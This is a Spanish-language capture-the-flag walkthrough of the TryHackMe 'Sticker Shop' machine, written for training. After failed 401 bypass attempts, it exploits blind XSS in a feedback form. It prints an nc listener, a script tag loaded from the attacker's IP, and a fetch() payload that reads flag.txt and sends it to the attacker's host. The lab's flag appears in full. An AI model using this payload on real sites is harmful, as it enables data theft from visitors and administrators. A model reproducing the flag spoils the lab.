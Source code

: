## Introducción

Este walkthrough describe el proceso para vulnerar una máquina en TryHackMe, identificando vulnerabilidades en una página web de stickers de gato y explotándolas para extraer la flag oculta.

## Paso 1: Exploración Inicial

Al acceder a la página web, encontramos dos pestañas principales:

- **Home**
![](the%20sticker%20shop%20(1).png)

- **Feedback**

![](the%20sticker%20shop%20(2).png)

La premisa inicial de TryHackMe nos proporciona la URL donde se encuentra la flag:

```
http://10.10.167.141:8080/flag.txt
```
![](the%20sticker%20shop%20(3).png)


## Paso 2: Intento de Bypass 401

Se intenta acceder a la flag directamente, pero nos encontramos con una autenticación 401. Se prueban diversos métodos de bypass de 401, incluyendo variaciones en la URL como:

```
http://10.10.167.141:8080/FLAG.txt
http://10.10.167.141:8080/Flag.Txt
```

Sin embargo, todos estos intentos resultan en errores 404 o 405, lo que hace imposible realizar el bypass por este método.

![](the%20sticker%20shop%20(4).png)
## Paso 3: Exploración de Feedback y Pruebas de XSS

En la pestaña **Feedback**, encontramos un cuadro de texto donde podemos ingresar datos. Se realizan pruebas de inyección de script, pero la inyección básica:

```
<script>alert(1)</script>
```

No genera ningún resultado. Antes de probar otros métodos, intentamos lo siguiente:

```
<script src="http://10.6.17.22:1234/"></script>
```

Con un listener activo en nuestra máquina:

```
nc -lvnp 1234
```

Obtenemos la siguiente respuesta:

```
listening on [any] 1234 ...
connect to [10.6.17.22] from (UNKNOWN) [10.10.167.141] 49642
GET / HTTP/1.1
Host: 10.6.17.22:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

Esto confirma que la inyección de script está funcionando.

## Paso 4: Explotación de XSS para Obtener la Flag

Sabemos que podemos ejecutar JavaScript dentro del navegador de la víctima. Procedemos con la siguiente consulta para extraer la flag:

```
<script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://10.6.17.22:1234/?data=' + encodeURIComponent(data))
    })
    .catch(err => console.error(err));
</script>
```

Dejamos escuchando nuestro listener y recibimos la siguiente respuesta:

```
GET /?data=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1
Host: 10.6.17.22:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

## Paso 5: Decodificación de la Flag

La flag obtenida está en formato URL-encoded:

```
THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D
```

Al decodificarla, obtenemos la flag final:

```
THM{83789a69074f636f64a38879cfcabe8b62305ee6}
```

## Conclusión

Se ha vulnerado exitosamente la máquina explotando una inyección de JavaScript en la funcionalidad de **Feedback**, lo que permitió extraer la flag desde `flag.txt` en el servidor. Esto demuestra la importancia de mitigar ataques de XSS en aplicaciones web.